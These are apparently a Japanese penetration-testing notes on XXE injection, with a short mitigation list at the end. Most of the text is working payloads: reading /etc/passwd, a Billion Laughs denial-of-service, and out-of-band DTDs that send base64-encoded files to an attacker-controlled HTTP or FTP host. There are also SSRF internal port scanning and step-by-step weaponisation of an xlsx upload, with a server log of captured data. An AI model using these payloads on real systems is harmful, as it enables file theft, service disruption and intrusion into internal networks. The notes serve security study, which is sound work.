# XXEインジェクション

- `/product/1` のようなREST APIがあるとき、POSTリクエストだけxmlを要求する場合がある
- xlsx ファイルをアップロードできる画面は要注意。実体はXMLが入ったZIPファイル。

## エンティティの種類
### 内部エンティティ
```xml
<!DOCTYPE note [
<!ENTITY inf "This is a test.">
]>
<note>
        <info>&inf;</info>
</note>
```
### 外部エンティティ
```xml
<!DOCTYPE note [
<!ENTITY ext SYSTEM "http://example.com/external.dtd">
]>
<note>
        <info>&ext;</info>
</note>
```
### パラメータエンティティ
```xml
<!DOCTYPE note [
<!ENTITY % common "CDATA">
<!ELEMENT name (%common;)>
]>
<note>
        <name>John Doe</name>
</note>
```
### 一般エンティティ
```xml
<!DOCTYPE note [
<!ENTITY author "John Doe">
]>
<note>
        <writer>&author;</writer>
</note>
```
### 文字エンティティ
```xml
<note>
        <text>Use &lt; to represent a less-than symbol.</text>
</note>
```

## In-Band XXE

このようにnameを参照して画面表示しているとする

```php
$expandedContent = $doc->getElementsByTagName('name')[0]->textContent;
```

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```

### Billion Laughs 攻撃

再帰的に展開してリソースを食い尽くし、システムをクラッシュさせることが目的。

```xml
<!DOCTYPE root [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<root>&lol3;</root>
```

## Out-Of-Band XXE

このように参照しているが、応答には含まれないとする
```php
$links = $doc->getElementsByTagName('file');
```

sample.dtd を保存し、HTTPで公開する
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://<attacker-ip>:port/?data=%cmd;'>">
%oobxxe;
```

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://<attacker-ip>:port/" >]>
<upload><file>&xxe;</file></upload>
```

## SSRF + XXE

### 内部ネットワークスキャン

Intruder 等でポート部分を変更して送信する

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```

## xlsx + Outbound

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file

1. Officeなどでxlsxファイルを作る。
2. 解凍

```sh
7z x -oXXE xxe.xlsx
```

3. xl/workbook.xml にペイロードを追加。

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http...
```

4. xxe.dtd を作成（FTPの方が大きいファイルに対応できる）

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

```xml
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://x.x.x.x:8000/%d;'>">
```

リクエストされるファイル名として、ファイルのコンテンツが送信される。

```sh
python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.201.125.209 - - [22/Oct/2025 15:34:12] code 404, message File not found
10.201.125.209 - - [22/Oct/2025 15:34:12] "GET /e2Q2Yj[REDACTED]A3ZDhmfQo= HTTP/1.0" 404 -
```

5. 圧縮、アップロード

```sh
cd XXE
7z u ../xxe.xlsx *
```


## 緩和

- 外部エンティティと DTD を無効にする
- JSONなどの単純なデータ形式を利用する
- <、>、&、'、" などの XML 固有の文字を除外またはエスケープする

